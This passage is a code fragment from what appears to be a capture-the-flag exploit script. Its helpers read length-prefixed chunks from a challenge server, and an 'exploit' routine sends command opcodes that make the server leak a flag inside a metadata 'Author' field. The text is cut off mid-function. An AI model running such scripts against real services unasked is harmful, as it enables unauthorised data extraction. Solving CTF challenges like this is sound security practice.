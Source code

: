 ```python
        chunk = io.recv(n - len(data), timeout=timeout)
        if not chunk:
            break
        data += chunk
    return data


def read_chunk(io, timeout: float = 2.0) -> Optional[Tuple[int, bytes]]:
    """Read one server chunk: 1-byte tag + 2-byte little-endian length + payload."""
    hdr = read_exact(io, 3, timeout=timeout)
    if len(hdr) < 3:
        return None
    tag = hdr[0]
    length = hdr[1] | (hdr[2] << 8)
    payload = read_exact(io, length, timeout=timeout)
    if len(payload) < length:
        return None
    return tag, payload


# Response parsing -----------------------------------------------------------

PRINTABLE_RE = re.compile(rb"[ -~]{1,256}")


def tokenize_printables(data: bytes) -> List[bytes]:
    return [m.group(0) for m in PRINTABLE_RE.finditer(data)]


def parse_kv_payload(payload: bytes) -> Dict[str, str]:
    """Best-effort parse of a key/value bundle produced by opcode 0x32.

    The server serializes a small structure with fields like "Author", "Comment",
    and "Software" using an internal container format. We conservatively scan the
    payload for printable tokens and map well-known keys to the token that follows.
    """
    tokens = tokenize_printables(payload)
    keys = {b"Author", b"Comment", b"Software"}
    out: Dict[str, str] = {}
    for i, tok in enumerate(tokens):
        if tok in keys and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = tok.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=0.1)  # ignore 1-byte ack if present
    send_cmd(io, b"\x22")
    io.recv(timeout=0.1)
    send_cmd(io, b"\x32\x01")

    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return None, b""
```
